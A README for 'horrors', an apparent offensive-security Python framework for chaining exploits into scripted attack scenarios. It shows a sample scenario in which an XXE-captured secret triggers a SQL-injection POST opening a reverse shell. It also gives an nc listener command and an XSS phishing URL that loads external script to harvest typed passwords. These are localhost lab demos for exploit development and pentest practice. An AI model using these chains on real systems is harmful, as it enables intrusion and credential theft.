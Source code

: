 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
async def reverse_shell(scenario):
    await scenario.http_post(
        'http://{rhost}:{rport}/query/'.format(**scenario.context),
        'secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**scenario.context),
    )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
}

story = scenarios.Scenario(**context)
story.set_debug()
story.set_proxy('http://127.0.0.1:8080')

ftpd = services.FTPReader(story)
ftpd.add_event('xxe', when=events.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

story.add_scene(reverse_shell, when='xxe')
story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    examples/vulnchain:$ victim.py
    examples/vulnchain:$ attacker.py

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    examples/xssphish:$ victim.py
    examples/xssphish:$ attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.

![xssphish](examples/xssphish/dom-based-xss-phish.jpg)


## Changelog

* **2021/12/14** Beta (v0.5)
    * Improved HTTP proxy logic
* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new API
    * Simplified services imports and generally everything
    * Changed default ports
    * Added requirements to setup.py
    * Replaced requests with aiohttp
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
